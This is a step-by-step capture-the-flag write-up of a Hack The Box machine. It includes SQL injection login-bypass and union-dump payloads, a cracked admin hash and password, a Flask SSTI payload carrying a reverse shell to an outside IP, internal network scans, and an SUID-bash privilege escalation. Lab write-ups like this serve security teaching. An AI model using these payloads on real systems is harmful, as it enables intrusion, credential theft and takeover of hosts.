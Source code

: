 1. Run nmap to discover some open ports and services from the web server and we discover only port 80 is opened.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/d2d3c3a8-cd52-4a27-8e35-781f1e1601e8)

2. Open the web server and it shows game website.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/e8d730b1-bb7a-442a-8f1c-b74f7b56cb75)

3. Use feroxbuster to discover any interesting directories and files.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/91f1129b-c3d3-49d1-aead-889a0efe4cf1)

4. Checking one by one features and try to do login in the web server.<br>
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/7b591e64-73fe-4d67-bb51-112afba6d914)

5. First thing that i thought is SQLi vulnerability, so let's try input ` ' OR 1=1 -- ` and it works by returning message Login Success!
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/77f3a7ac-2b28-4754-85cb-79f211581c99)

6. Send request to the web server and we successfully login as admin.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/b5b3a103-1b1f-4ca8-a7e3-4313b9a6dc99)
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/8ef1ce50-c2c7-44bc-9a71-8aba2818b7bf)

7. There is change password in there (we'll use it later) but unfortunately it returns error 500.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/3c56b94b-08dc-4249-8e6b-f8ddc1048e3b)

8. Now we must find the admin credentials. We use union-based injection and try one by one until it says login successful. In the photo we can discover that the last number (from 4) are being executed by the system. 
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/eeefc260-420d-4105-b104-533f28bd9cfc)

9. The first objective is to find what database is stored inside the web server. To do that, we can execute this payload `' UNION SELECT 0,1,2,concat(schema_name, ' ') FROM information_schema.schemata -- `
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/fa714b38-ea20-4aac-9264-6207c61147d0)

10. Realize that only 2 databases inside the web server and the main focus is the **main** database. Next we want to find the table content inside the database with this payload `' UNION SELECT 0,1,2,concat(table_name, ' ') FROM information_schema.tables where table_schema = 'main' -- `
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/4b9261db-bf96-47ed-9b76-faf2ffc7f871)

11. There are 3 tables inside the main database and we directly refer to user table. Before accessing that, we must know what column that are set in the table with this payload `' UNION SELECT 0,1,2,concat(column_name, ' ') FROM information_schema.columns where table_name = 'user' -- `
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/cced2234-0e0f-409d-a95f-62d1e5a0a134)

12.The columns are known and we just directly grab the data with this payload `' UNION SELECT 0,1,2,concat(id, ' ', email, ' ', password, ' ', name) FROM user -- `
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/36b99644-78dc-4559-bc85-641db664ecca)<br>

Admin user data:
id = 1
email = admin@goodgames.htb 
password (hash) = 2b22337f218b2d82dfc3b6f77e7cb8ec 
name = admin

13.Seems like the password been hashed using md5, so I use this [tool](https://crackstation.net/) to crack it and found that the password is **superadministrator**
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/78cee30f-8a4f-405f-9407-ceb5a3050453)

14. Next we are checking what the setting feature (Right corner above) can do. When I clicked, it directed to internal-administrator.htb but I can't access the web.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/ac8b74f1-9f2d-49b6-93b4-f3ddeb1582b8)

15. Add internal-administrator.htb to /etc/hosts and you can open the website and needs to login.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/177f04ed-62a5-49ad-ba6c-f53809d5413f)
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/533bd5c3-423b-40ee-b1ea-f30e9913641e)

16. Input admin credentials that have been found and directed to admin's dashboard page.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/1c2a85f5-fb2b-4809-a0c4-21f38ce3f8b4)

17. From the web server name, it indicates to flask. The first thing related to flask is SSTI. In settings feature, we try to put this payload `{{ 6 * 8 }}`. If the output is 48, then it's vulnerable to SSTI.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/28909249-72fc-4d34-b05c-1a7d6dee19a9)

18. Yep, it's vulnerable. We can execute the payload from this [source](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md) to execute bash command.

Payload:
`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}`

![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/479fcc57-8e7d-43d0-bd09-c5a4244052f8)

19. It shows the information of admin's id which means it works. Next we're going to takeover the admin's shell with reverse shell attack and for the script you can make with this [tool] (https://www.revshells.com/)

Payload:
`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.14.13/777 0>&1"').read() }}`.

![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/6f4690ac-8ed4-4387-917b-7a5a9e3567a5)

![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/b1f2dc8c-d21e-49b3-b6be-0352a6b71d85)

20. We successfully access the admin's shell and get the user flag in /home/augustus/user.txt.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/286e49ce-036c-4092-a1aa-36a8edac502e)

21. We know that this is already the root one, but we can't find the root flag here. Realize that we still have augustus account that haven't we check. To do that, first we must know his IP address using `ip a` command.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/356ca1fd-9275-43d3-863c-03e51bde6235)

22. Knowing that all the ports in 172.19.0.2 are opened. Now we must find another address that opened or indicates that's augustus's shell. We can use loop in bash with this payload `for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;`.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/fa897b60-f5b2-476d-bd6e-c987c02f38f6)

23. The result is there are two open ports in 172.19.0.xxx. Next we check which ports are open in IP 172.19.0.1 with this command `for PORT in {0..1000}; do timeout 1 bash -c "</dev/tcp/172.19.0.1/$PORT &>/dev/null" 2>/dev/null && echo "$PORT is open"; done`.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/63cf1510-f8eb-4f70-81e2-2f9499c4a7b1)

24. Unfortunately, the terminal doesn't have ssh access and we can't just access directly to augustus's shell because the partitions isn't mounted yet.<br>
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/c3c4ebcc-c92a-4a42-a7cc-b57012ff28f3)

25. To mount augustus's partitions (sda1) we can run `mount | grep augustus`.<br>
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/b61a79fa-c0b6-42e0-bceb-ae53e820411e)

26. Run `script /dev/null bash` to use the original bash (not user bash) and run `ssh augustus@172.19.0.1` where the password is **superadministrator** (the admin credential).<br>
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/62d79855-16b0-4ac0-9d8d-f2e9a3ccdd25)

27. Try to open the root and it says permission denied so we can't access it.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/4a9034a3-b068-42c0-8572-a3244c09f496)

28. Next step is we need to copy augustus's bash terminal to root to see the privilege. We can run `ls -l bash` to check it and found that the UID must be 1000.<br> 
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/bafa8883-c1d9-4b48-baf7-ad99b6dcb39f)

29. We're accessing the root privilege so the bash owner must be controlled by root. We can use `chown root:root bash` to transfer file ownership to root and give all access with `chmod 7777`.<br>
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/cf7e95d0-43ee-4685-8541-24bec9d66531)

30. Open augustus's shell again with ssh and run the new privilege bash that has been settled in previous step with command `./bash -p`. There we get the root privilege and get the root flag in /root/root.txt.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/2c494800-5f00-4d72-8cd9-0f370d48843c)


















































